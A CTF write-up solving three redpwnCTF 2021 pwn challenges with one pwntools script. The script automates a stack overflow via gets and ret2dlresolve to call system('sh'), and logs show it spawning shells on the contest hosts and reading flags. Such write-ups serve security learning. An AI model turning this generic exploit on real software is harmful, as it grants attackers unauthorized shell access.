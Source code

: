 # redpwnCTF 2021

## beginner-generic-pwn-number-0/ret2generic-flag-reader/ret2the-unknown

> **beginner-generic-pwn-number-0**  
> pepsipu
> 
> rob keeps making me write beginner pwn! i'll show him...
>
> `nc mc.ax 31199`
>
> [beginner-generic-pwn-number-0](beginner-generic-pwn-number-0)
> 
> **ret2generic-flag-reader**  
> pepsipu
> 
> i'll ace this board meeting with my new original challenge!
>
> `nc mc.ax 31077`
>
> [ret2generic-flag-reader](ret2generic-flag-reader)
> 
> **ret2the-unknown**  
> pepsipu
>
> hey, my company sponsored map doesn't show any location named "libc"!
>
> `nc mc.ax 31568`
>
> [ret2the-unknown](ret2the-unknown)


Tags: _pwn_ _x86-64_ _ret2dlresolve_ _bof_


## Summary

I'm lumping all of these together since I used the _exact_ same code on all of them.  And I'm sure this was _not_ the intended solution.

I'm not going to cover all the internals or details of ret2dlresolve (in this write up, I'm working on a future article), however here are two good reads:

[https://syst3mfailure.io/ret2dl_resolve](https://syst3mfailure.io/ret2dl_resolve)  
[https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62](https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62)


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    Stack:    No canary found
    PIE:      No PIE (0x400000)
```

All three had at least the above--all that is needed for easy ret2dlresolve with `gets`.  That, and dynamically linked.

> Perhaps it's time to retire `gets`.


## Exploit (./getsome.py)

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF(args.BIN)

p = process(binary.path)
p.sendline(cyclic(1024,n=8))
p.wait()
core = p.corefile
p.close()
os.remove(core.file.name)
padding = cyclic_find(core.read(core.rsp, 8),n=8)
log.info('padding: ' + hex(padding))

rop = ROP(binary)
ret = rop.find_gadget(['ret'])[0]
dl = Ret2dlresolvePayload(binary, symbol='system', args=['sh'])

rop.raw(ret)
rop.gets(dl.data_addr)
rop.ret2dlresolve(dl)

if args.REMOTE:
    p = remote(args.HOST, args.PORT)
else:
    p = process(binary.path)

payload  = b''
payload += padding * b'A'
payload += rop.chain()
payload += b'\n'
payload += dl.payload

p.sendline(payload)
p.interactive()
```

To exploit most x86_64 `gets` challenges just type:

`./getsome.py BIN=./binary HOST=host PORT=port REMOTE=1`

Thanks it, get your flag and move on.

_How does this script work?_

Well, first the padding is computing by crashing the binary and extracting the payload from the core to compute the distance to the return address on the stack.  Then, ret2dlresolve is used to get a shell.  _See the retdlresolve links above._


Output:

```bash
# ./getsome.py BIN=./beginner-generic-pwn-number-0 HOST=mc.ax PORT=31199 REMOTE=1
[*] '/pwd/datajerk/redpwnctf2021/pwn/beginner-generic-pwn-number-0/beginner-generic-pwn-number-0'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/pwd/datajerk/redpwnctf2021/pwn/beginner-generic-pwn-number-0/beginner-generic-pwn-number-0': pid 265
[*] Process '/pwd/datajerk/redpwnctf2021/pwn/beginner-generic-pwn-number-0/beginner-generic-pwn-number-0' stopped with exit code -11 (SIGSEGV) (pid 265)
[!] Error parsing corefile stack: Found bad environment at 0x7fffed221f4f
[+] Parsing corefile...: Done
[*] '/pwd/datajerk/redpwnctf2021/pwn/beginner-generic-pwn-number-0/core.265'
    Arch:      amd64-64-little
    RIP:       0x4012be
    RSP:       0x7fffed2205b8
    Exe:       '/pwd/datajerk/redpwnctf2021/pwn/beginner-generic-pwn-number-0/beginner-generic-pwn-number-0' (0x400000)
    Fault:     0x6161616161616168
[*] padding: 0x38
[*] Loaded 14 cached gadgets for './beginner-generic-pwn-number-0'
[+] Opening connection to mc.ax on port 31199: Done
[*] Switching to interactive mode
"𝘱𝘭𝘦𝘢𝘴𝘦 𝘸𝘳𝘪𝘵𝘦 𝘢 𝘱𝘸𝘯 𝘴𝘰𝘮𝘦𝘵𝘪𝘮𝘦 𝘵𝘩𝘪𝘴 𝘸𝘦𝘦𝘬"
rob inc has had some serious layoffs lately and i have to do all the beginner pwn all my self!
can you write me a heartfelt message to cheer me up? :(
$ cat flag.txt
flag{im-feeling-a-lot-better-but-rob-still-doesnt-pay-me}
```

```bash
# ./getsome.py BIN=./ret2generic-flag-reader HOST=mc.ax PORT=31077 REMOTE=1
[*] '/pwd/datajerk/redpwnctf2021/pwn/ret2generic-flag-reader/ret2generic-flag-reader'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/pwd/datajerk/redpwnctf2021/pwn/ret2generic-flag-reader/ret2generic-flag-reader': pid 312
[*] Process '/pwd/datajerk/redpwnctf2021/pwn/ret2generic-flag-reader/ret2generic-flag-reader' stopped with exit code -11 (SIGSEGV) (pid 312)
[!] Error parsing corefile stack: Found bad environment at 0x7fffe4f21f61
[+] Parsing corefile...: Done
[*] '/pwd/datajerk/redpwnctf2021/pwn/ret2generic-flag-reader/core.312'
    Arch:      amd64-64-little
    RIP:       0x40142f
    RSP:       0x7fffe4f20028
    Exe:       '/pwd/datajerk/redpwnctf2021/pwn/ret2generic-flag-reader/ret2generic-flag-reader' (0x400000)
    Fault:     0x6161616161616166
[*] padding: 0x28
[*] Loading gadgets for '/pwd/datajerk/redpwnctf2021/pwn/ret2generic-flag-reader/ret2generic-flag-reader'
[+] Opening connection to mc.ax on port 31077: Done
[*] Switching to interactive mode
alright, the rob inc company meeting is tomorrow and i have to come up with a new pwnable...
how about this, we'll make a generic pwnable with an overflow and they've got to ret to some flag reading function!
slap on some flavortext and there's no way rob will fire me now!
this is genius!! what do you think?
$ cat flag.txt
flag{rob-loved-the-challenge-but-im-still-paid-minimum-wage}
```

```bash
# ./getsome.py BIN=./ret2the-unknown HOST=mc.ax PORT=31568 REMOTE=1
[*] '/pwd/datajerk/redpwnctf2021/pwn/ret2the-unknown/ret2the-unknown'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/pwd/datajerk/redpwnctf2021/pwn/ret2the-unknown/ret2the-unknown': pid 361
[*] Process '/pwd/datajerk/redpwnctf2021/pwn/ret2the-unknown/ret2the-unknown' stopped with exit code -11 (SIGSEGV) (pid 361)
[!] Error parsing corefile stack: Found bad environment at 0x7ffcd8878f79
[+] Parsing corefile...: Done
[*] '/pwd/datajerk/redpwnctf2021/pwn/ret2the-unknown/core.361'
    Arch:      amd64-64-little
    RIP:       0x401237
    RSP:       0x7ffcd8876cf8
    Exe:       '/pwd/datajerk/redpwnctf2021/pwn/ret2the-unknown/ret2the-unknown' (0x400000)
    Fault:     0x6161616161616166
[*] padding: 0x28
[*] Loading gadgets for '/pwd/datajerk/redpwnctf2021/pwn/ret2the-unknown/ret2the-unknown'
[+] Opening connection to mc.ax on port 31568: Done
[*] Switching to interactive mode
that board meeting was a *smashing* success! rob loved the challenge!
in fact, he loved it so much he sponsored me a business trip to this place called 'libc'...
where is this place? can you help me get there safely?
phew, good to know. shoot! i forgot!
rob said i'd need this to get there: 7f6564131560
good luck!
$ cat flag.txt
flag{rob-is-proud-of-me-for-exploring-the-unknown-but-i-still-cant-afford-housing}
```
